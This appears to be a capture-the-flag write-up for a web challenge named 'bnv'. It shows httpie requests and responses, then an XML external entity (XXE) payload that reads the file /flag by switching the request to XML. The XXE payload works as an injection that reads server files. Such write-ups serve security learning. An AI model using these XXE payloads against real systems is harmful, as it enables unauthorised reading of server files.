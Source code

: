 
Find ``post.js`` in home page

```bash
https://bnv.web.ctfcompetition.com/static/post.js
```

Calculate message_new according to function AjaxFormPost, 'zurich', for example, was mapped to '135601360123502401401250'

Send post request with httpie

```bash
http --json --verbose -f POST  https://bnv.web.ctfcompetition.com/api/search Content-Type:"application/json" message=135601360123502401401250
```

Request

```bash
POST /api/search HTTP/1.1
Accept: application/json
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 39
Content-Type: application/json
Host: bnv.web.ctfcompetition.com
User-Agent: HTTPie/0.9.4

{
    "message": "135601360123502401401250"
}
```

Response

```bash
HTTP/1.1 200 OK
Content-Encoding: gzip
Content-Type: application/json; charset=utf-8
Date: Tue, 23 Jun 2020 03:51:29 GMT
Server: gunicorn/19.9.0
Transfer-Encoding: chunked
Vary: Accept-Encoding
Via: 1.1 google

{
    "ValueSearch": "Welcome! Our center is located in Brandschenkestrasse 110, 8002 Zurich, Opening hours for this center is 8:00-17:00"
}

```

Try to request with XML

```bash
http --verbose -f POST  https://bnv.web.ctfcompetition.com/api/search Content-Type:"application/xml" <<< '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE message [<!ELEMENT message ANY ><!ENTITY mycode SYSTEM "file:///flag" >]><message>135601360123502401401250</message>'

```

It's working. Now, post with the attack payload

```bash
http --verbose -f POST  https://bnv.web.ctfcompetition.com/api/search Content-Type:"text/xml" < payload.xml
```

Got one flag in response.
